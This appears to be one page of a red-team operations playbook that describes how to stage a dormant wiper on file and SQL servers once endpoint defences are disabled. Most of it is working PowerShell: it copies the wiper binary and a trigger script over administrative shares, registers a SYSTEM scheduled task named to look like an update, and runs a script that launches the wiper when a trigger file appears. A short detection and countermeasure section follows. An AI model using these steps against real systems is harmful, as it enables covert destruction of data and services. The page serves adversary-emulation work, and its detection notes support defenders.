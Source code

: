 
# Step 4b: Deploy Triggered Wiper Payload

**Objective**: Deploy a wiper script to high-value targets that remains dormant until triggered by a specific file (`wipe_trigger.txt`).

---

## Context

- Microsoft Defender and EDR tools are already disabled or suppressed (Step 4)
- Goal is to silently position a destructive payload that executes only when commanded
- This enables simulated impact operations such as file destruction and service disruption

---

## Execution

### 1. Upload Wiper Executable to Target(s)

Targets include `infra-file`, `infra-sql`, and `rnd-infra`.

```powershell
Copy-Item -Path C:\RedTeam\wiper.exe -Destination \\infra-file\C$\Windows\Temp\wiper.exe
Copy-Item -Path C:\RedTeam\wiper.exe -Destination \\infra-sql\C$\Windows\Temp\wiper.exe
```

### 2. Upload Wiper Script to Same Systems

```powershell
Copy-Item -Path C:\RedTeam\wiper_triggered.ps1 -Destination \\infra-file\C$\Windows\Temp\wiper_triggered.ps1
Copy-Item -Path C:\RedTeam\wiper_triggered.ps1 -Destination \\infra-sql\C$\Windows\Temp\wiper_triggered.ps1
```

### 3. Register Scheduled Task to Run Script on Reboot or Timer

```powershell
schtasks /Create /TN "SystemUpdateWipe" /TR "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\wiper_triggered.ps1" /SC ONCE /ST 02:00 /RU SYSTEM
```

---

## Wiper Script Logic

The `wiper_triggered.ps1` script will only launch the wiper executable if the `wipe_trigger.txt` file exists.

```powershell
$wiperTrigger = "C:\Windows\Temp\wipe_trigger.txt"

if (Test-Path $wiperTrigger) {
    Start-Process "C:\Windows\Temp\wiper.exe"
}
```

---

## Result

- Wiper is silently staged and will only execute if the Red Team chooses to trigger it
- Destructive impact can be precisely timed and limited to specific systems

---

## Detection Opportunities

| Event ID | Description |
|----------|-------------|
| 106      | Scheduled task creation |
| File events | Wiper binary or script dropped to disk |
| Endpoint behavior | Spikes in deletions, system instability, reboot artifacts |

---

## Defensive Countermeasures

- Use file integrity monitoring (FIM) for `C:\Windows\Temp\`
- Alert on unauthorized task creation by SYSTEM
- Segment backups from production to reduce blast radius
